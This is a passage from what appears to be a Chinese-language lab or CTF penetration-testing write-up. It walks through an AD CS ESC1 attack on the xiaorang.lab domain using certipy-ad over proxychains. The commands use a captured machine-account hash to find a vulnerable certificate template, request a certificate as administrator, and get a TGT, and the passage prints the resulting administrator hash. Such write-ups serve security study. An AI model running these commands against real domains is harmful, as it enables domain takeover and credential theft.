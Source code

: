抓到用户哈希

```plain
proxychains certipy-ad find -u win2012\$@xiaorang.lab -hashes 00000000000000000000000000000000:b35fa31e83a934b872824eeb8d9426ea -dc-ip 172.22.61.17 -vulnerable
```

ADCS 发现 ESC1，有 win2012 可利用的模板，申请一下证书

```plain
proxychains certipy-ad req -u win2012\$@xiaorang.lab -hashes 00000000000000000000000000000000:b35fa31e83a934b872824eeb8d9426ea -target 172.22.61.17 -ca xiaorang-DC-CA-CA -template win2012 -upn administrator@xiaorang.lab
```

[![](assets/1708919820-2f9a4965e1d3866b9ef45faae90a6488.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024957-d96ef376-cb69-1.png)

转换格式请求 TGT

```plain
proxychains certipy-ad auth -pfx administrator.pfx -dc-ip 172.22.61.17
```

[![](assets/1708919820-3aa8dc588b99c357282c59d360ea90eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215025001-dbc848de-cb69-1.png)

```plain
aad3b435b51404eeaad3b435b51404ee:e26a28fd9daa8a6a4d3c5adbbdcb0f53
```
